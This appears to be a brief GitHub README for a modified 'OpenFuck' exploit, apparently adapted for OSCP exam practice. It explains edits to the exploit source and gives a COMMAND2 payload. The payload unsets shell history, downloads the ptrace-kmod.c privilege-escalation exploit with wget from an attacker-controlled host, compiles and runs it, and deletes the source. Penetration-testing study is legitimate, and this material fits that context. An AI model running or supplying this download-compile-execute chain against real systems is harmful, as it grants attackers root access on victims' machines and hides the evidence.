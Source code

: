 # openfuck_oscp
modified the code on line 671

host  the ptrace-kmod.c 

added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error

enter url of the file in the command2



#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"


